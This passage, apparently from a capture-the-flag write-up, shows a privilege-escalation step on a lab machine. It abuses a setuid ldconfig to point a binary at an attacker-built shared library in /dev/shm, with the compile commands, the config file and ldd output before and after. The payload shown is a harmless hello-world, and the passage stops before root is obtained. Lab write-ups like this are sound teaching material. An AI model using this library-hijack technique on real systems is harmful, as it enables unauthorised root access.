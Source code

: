 This is where the fact that `ldconfig` is setuid allowing me to run it
as root comes in handy. I can use this to configure where the binary
looks for libraries, and give it one of my own instead of the one it
currently looks for.

#### Hello World POC

I'll make a quick hello world program that implements the `seclogin`
function:



    genevieve@dab:/dev/shm$ cat .a.c
    #include <stdio.h>

    void seclogin() {
        printf("hello, world!");
    }



Next I'll compile it to a library using the `-shared` and `-fPIC` flags:



    genevieve@dab:/dev/shm$ gcc -shared -fPIC /dev/shm/.a.c -o /dev/shm/libseclogin.so



The `-shared` flag tells gcc to make a shared object which can later be
linked to other objects, and `-fPIC` says to emit position independent
code, which is what a library typically needs. I've output my library in
`/dev/shm` (just a place to stage, could be anywhere).

Next, I'll create a config file for `ldconfig` that simply includes the
path I want to check:



    genevieve@dab:/dev/shm$ cat df.conf 
    /dev/shm



Now I'll change the configuration with `ldconfig`. First, I'll show the
libraries before I change anything:



    genevieve@dab:/dev/shm$ ldd /usr/bin/myexec 
            linux-vdso.so.1 =>  (0x00007fff061d0000)
            libseclogin.so => /usr/lib/libseclogin.so (0x00007fd56002e000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd55fc64000)
            /lib64/ld-linux-x86-64.so.2 (0x00007fd560230000)



Now, I'll use `ldconfig` to add my path. `myexec` now is looking for
libraries (including `libseclogin.so`) in `/dev/shm`:



    genevieve@dab:/dev/shm$ ldconfig -f df.conf 
    genevieve@dab:/dev/shm$ ldd /usr/bin/myexec 
            linux-vdso.so.1 =>  (0x00007ffcef9c8000)
            libseclogin.so => /dev/shm/libseclogin.so (0x00007fa94237b000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa941fb1000)
            /lib64/ld-linux-x86-64.so.2 (0x00007fa94257d000)
